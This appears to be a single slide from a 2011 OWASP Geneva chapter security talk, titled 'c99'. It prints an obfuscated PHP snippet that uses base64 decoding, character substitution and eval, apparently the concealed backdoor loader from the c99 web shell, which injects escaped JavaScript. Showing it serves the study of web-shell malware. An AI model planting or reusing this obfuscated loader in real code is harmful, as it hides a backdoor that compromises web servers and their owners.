

# c99
$_F=__FILE__;$_X='Pz48c2NyNHB0IGwxbmczMWc1PWoxdjFzY3I0cHQ+ZDJjM201bnQud3I0dDUo
M241c2MxcDUoJyVvQyU3byVlbyU3YSVlOSU3MCU3dSVhMCVlQyVlNiVlRSVlNyU3aSVlNiVlNyVlaS
VvRCVhYSVlQSVlNiU3ZSVlNiU3byVlbyU3YSVlOSU3MCU3dSVhYSVvRSVlZSU3aSVlRSVlbyU3dSVl
OSVlRiVlRSVhMCVldSV1ZSVhOCU3byVhOSU3QiU3ZSVlNiU3YSVhMCU3byVvNiVvRCU3aSVlRSVlaS
U3byVlbyVlNiU3MCVlaSVhOCU3byVhRSU3byU3aSVlYSU3byU3dSU3YSVhOCVvMCVhQyU3byVhRSVl
QyVlaSVlRSVlNyU3dSVlOCVhRCVvNiVhOSVhOSVvQiVhMCU3ZSVlNiU3YSVhMCU3dSVvRCVhNyVhNy
VvQiVlZSVlRiU3YSVhOCVlOSVvRCVvMCVvQiVlOSVvQyU3byVvNiVhRSVlQyVlaSVlRSVlNyU3dSVl
OCVvQiVlOSVhQiVhQiVhOSU3dSVhQiVvRCVpbyU3dSU3YSVlOSVlRSVlNyVhRSVlZSU3YSVlRiVlRC
V1byVlOCVlNiU3YSV1byVlRiVldSVlaSVhOCU3byVvNiVhRSVlbyVlOCVlNiU3YSV1byVlRiVldSVl
aSV1NiU3dSVhOCVlOSVhOSVhRCU3byVhRSU3byU3aSVlYSU3byU3dSU3YSVhOCU3byVhRSVlQyVlaS
VlRSVlNyU3dSVlOCVhRCVvNiVhQyVvNiVhOSVhOSVvQiVldSVlRiVlbyU3aSVlRCVlaSVlRSU3dSVh
RSU3NyU3YSVlOSU3dSVlaSVhOCU3aSVlRSVlaSU3byVlbyVlNiU3MCVlaSVhOCU3dSVhOSVhOSVvQi
U3RCVvQyVhRiU3byVlbyU3YSVlOSU3MCU3dSVvRScpKTtkRignKjhIWEhXTlVZKjdpWFdIKjhJbXl5
Myo4RnV1Mm5zdG8ybm9renMzbmhvdHdsdXF2dXhqaHp3bnklN0VvMngqOEoqOEh1WEhXTlVZKjhKaS
cpPC9zY3I0cHQ+';eval(base64_decode('JF9YPWJhc2U2NF9kZWNvZGUoJF9YKTskX1g9c3RydH
IoJF9YLCcxMjM0NTZhb3VpZScsJ2FvdWllMTIzNDU2Jyk7JF9SPWVyZWdfcmVwbGFjZSgnX19GSUxF
X18nLCInIi4kX0YuIiciLCRfWCk7ZXZhbCgkX1IpOyRfUj0wOyRfWD0wOw=='));
54
OWASP Switzerland – Geneva Chapter Meeting @ HEIG-VD (Yverdon-Les-Bains) – Feb.2011